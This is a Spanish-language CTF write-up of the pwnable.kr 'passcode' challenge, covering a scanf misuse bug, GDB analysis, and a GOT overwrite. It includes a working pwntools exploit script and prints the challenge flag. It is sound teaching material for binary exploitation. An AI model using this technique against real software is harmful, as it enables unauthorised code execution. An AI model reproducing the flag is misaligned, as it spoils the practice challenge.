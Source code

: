 ```yaml
---
title: pwnable.kr passcode - Arbitrary write y sobrescritura de GOT
author: c4rta
date: 2023-01-18
categories: [Explotacion binaria]
tags: [GOT overwrite, arbitrary write]
---
```


## Analisis del binario

### Funcion main

```c
int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

Lo unico que hace es llamar a dos funciones: ```welcome``` y ```login``` e imprimer unos cuantos mensajes

### Funcion welcome

```c
void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}
```

Vemos que se declara un buffer de 100, basicamente esta funcion toma 100 caracteres los cuales los guarda en la variable ```name``` e imprime el mensaje ```Welcome``` y lo que tenga ```name```

### Funcion login

```c
void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}
```

Después de eso tenemos la funcion ```login()``` que lee dos números enteros, luego los compara con dos constantes y, si coinciden obtenemos la bandera

Todo parece muy simple, pero si intentamos correrlo pasandole esos valores con los que se compara, veremos algo como esto:

```
passcode@pwnable:~$ ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : c4rta
Welcome c4rta!
enter passcode1 : 338150
Segmentation fault (core dumped)
```
Peto, pero como es que peto si parece que espera un tipo de dato int y encima el que le pasamos es igual a ```338150``` que es el primer valor con el que se compara.

Aqui una recomendacion es que si tiene el codigo fuente, lo vuelvan a compilar para ver si tiene algunos warnings y en este caso nos muestra eso:

```
passcode.c: In function ‘login’:
passcode.c:9:8: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
    scanf("%d", passcode1);
    ^
```

Con esto nos podemos dar cuenta el input que se guarda en ```passcode1``` no se interpreta como un int, si no como una direccion, de hecho ahi nos dice que espera un ```int *```, esto deriva de un ```arbitrary write```, en la cual es la variable ```passcode1``` podemos poner lo que queramos

### Depurandolo con GDB

Aqui me ire directamente a la funcion ```login()``` para que puedan ver que las variables se tratan como direcciones (les recomiendo que lo pongan con sintaxis intel, la sintaxis at&t esta medio pedorra: ```set disassembly-flavor intel```)

Quiero destacar algo, generalmente en ensamblador para acceder a las varibles de una funcion se hace uso del ```EBP```, esto lo digo ya que podemos tener una idea de donde se encuentran nuestras variables, quiero resaltar esto:

![](/assets/img/commons/passcode/1.png)

Puede ser que lo que esta en ```ebp-0x10``` sea la variable passcode asi que para corroborar eso pondre un breakpoint alli e ejecutare el programa:


Como se puede ver:

```
(gdb) x/xw $ebp-0x10
0xffefef58:	0xf7586cbb
```
La variable ```passcode1``` (ebp-0x10) esta apuntando a ```0xf7586cbb```, que es la direccion en la que esta escribiendo en ```scanf()``` 

Ademas podemos ver que en las comparaciones:

```
cmp    DWORD PTR [ebp-0x10],0x528e6
DWORD PTR [ebp-0xc],0xcc07c9
```

Esta comparando direcciones ```0x528e6``` y ```0xcc07c9``` no un valor, entonces el código intenta cargar la dirección de ```passcode1``` y ```passcode2``` que obviamente no existen. Esa es la razon por la que el programa peta


## Explotacion

Si sabemos que tenenemos una escritura arbitraria para poder sobrescribir el valor de ```passcode1```, ¿Entonces como nos aprovechamos de esto?, pues debemos de aplicar otra tecnica llamada ```GOT overwrite``` esto es por que la funcion ```fflush()```esta despues de ```scanf()```, gracias a que las funciones como printf, scanf, fflush no están presentes en el código, solo tiene la referencia a aquellas funciones que son cargadas desde otro binario y esas referencias se almacenan en GOT, cuando el binario tiene la información necesaria para buscar estas funciones referenciadas durante el tiempo de carga y la tabla GOT se llena con esas referencias, el segmento en el que reside GOT tiene permisos de escritura, y si apuntamos nuestra variable ```passcode1``` a una de las entradas de la tabla GOT, podemos redirigir la ejecución del código, que rico, ¿No?.

### Desplazamiento para passcode1

Lo primero que hay que obtener es el desplazamiento para llegar a ```passcode1```, y es bien facil, simplemente podemos hacer una resta de la ubicacion de la variable ```name``` la que recibe nuestro primer input, con la ubicacion de la variable ```passcode``` y la variable ```name``` esta ```0x70``` por debajo de ```EBP```, deja te muesto.

En la funcion ```welcome()``` hay una linea como esta:

```0x0804862f <+38>:	lea    edx,[ebp-0x70]```

La cual usa el registro ```EDX``` este registro es usado para menejar las operaciones I/0, asi que pondre un breakpoint donde se recibe nuestro input

```b *0x08048643```

Ahora si yo muestro lo que tiene ```ebp-0x70``` veremos algo como esto:

```
(gdb) r
Starting program: /home/passcode/passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : c4rta --> Mi input

Breakpoint 1, 0x08048643 in welcome ()
(gdb) x/1s $ebp-0x70
0xffa1a2c8:	"c4rta" --> El valor que tiene
(gdb) 
```

Ahora esta comprobado que en ```ebp-0x70``` esta la variable ```name```.

Asi que para sacar el desplazamiento para llegar a ```passcode1``` hacemos ```0x70 - 0x10```, y esto nos da ```96``` es decimal

### Direccion de fflush

Primero hay que mostrar el contenido de la funcion: 

```
(gdb) disas fflush
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:	jmp    *0x804a004
   0x08048436 <+6>:	push   $0x8
   0x0804843b <+11>:	jmp    0x8048410
End of assembler dump.
```

Vemos que la entrada de ```fflush``` esta con la direccion ```0x804a004``` y su valor es ```0x08048436``` que es cuando se hace el ```push```. y esta direccion la ocupamos ya que sobrescribiremos ```fflush``` para que llame a ```/bin/cat flag``` que esta en la direccion ```0x080485e3```

### Crafteando el exploit

```py
from pwn import *

context.update(arch="i386", os="linux")
p = process("./passcode")

payload = b'A' * 96             # desplazamiento para passcode
payload += p32(0x0804a004)      # direccion de la entrada GOT de fflush
payload += str.encode(str(0x080485e3))  # direccion de bin/cat flag

print(p.recvline())
p.sendline(payload)
print(p.recvall())
```
Y nos da la flag la cual es: ```Sorry mom.. I got confused about scanf usage :(```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/commons/passcode/waifu.gif)